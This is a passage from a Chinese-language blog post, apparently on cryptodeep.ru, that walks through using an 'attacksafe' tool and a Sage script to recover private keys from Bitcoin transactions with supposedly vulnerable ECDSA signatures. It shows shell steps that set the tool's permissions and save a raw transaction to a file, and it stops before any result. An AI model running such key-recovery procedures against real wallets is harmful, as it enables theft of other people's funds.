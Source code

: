 <figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-27-1024x768.png" alt="比特币网络中的 DeserializeSignature 漏洞：密码分析、后果以及创建无效 ECDSA 签名的可能性" class="wp-image-5231"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-28-1024x750.png" alt="比特币网络中的 DeserializeSignature 漏洞：密码分析、后果以及创建无效 ECDSA 签名的可能性" class="wp-image-5234"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-29-1024x771.png" alt="比特币网络中的 DeserializeSignature 漏洞：密码分析、后果以及创建无效 ECDSA 签名的可能性" class="wp-image-5237"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading">访问权限：</h2>



<pre class="wp-block-code"><code><strong>!chmod +x attacksafe</strong></code></pre>



<pre class="wp-block-code"><code><strong>ls -l</strong></code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-30-1024x436.png" alt="比特币网络中的 DeserializeSignature 漏洞：密码分析、后果以及创建无效 ECDSA 签名的可能性" class="wp-image-5239"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2 class="wp-block-heading">应用：</h2>



<p>我们来选择一下<code><strong>deserialization_error_vulnerability_cve-2023-0085.sage</strong></code></p>



<p><strong>要从易受攻击的ECDSA</strong>签名交易中获取密钥，请将数据添加<strong><code>RawTX</code>&nbsp;</strong>到文本文档并将其保存为文件，<code><strong>RawTX.txt</strong></code>&nbsp;为此我们将使用该实用程序&nbsp;；<code>echo</code></p>



<blockquote class="wp-block-quote">
<p><em><strong>让我们运行命令：</strong></em></p>
</blockquote>



<pre class="wp-block-code"><code><strong>!echo '01000000010dbc696374c8d7ca61f32710e03aaedcb7a4f2428074814d0e1f4f7f5c1e5935000000008b483045022100b44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307022074e5feb333400732256fc44a681a1ba262b080a7cc5dfa11894e7ce4d9766c6f0141045cf7dd1ad49af6957415d6b76ff39cbf78f6e72f1db9199a01127687e7230f96614ff6f0184d2191fa7428872e311fe4ddf2b91f560b30fd7dc01d2118ac0b5bffffffff01d2040000000000001976a914d74b32dfa340da479ce64aaf5e326496eb3995f188ac00000000' &gt; RawTX.txt
!cat RawTX.txt</strong></code></pre>
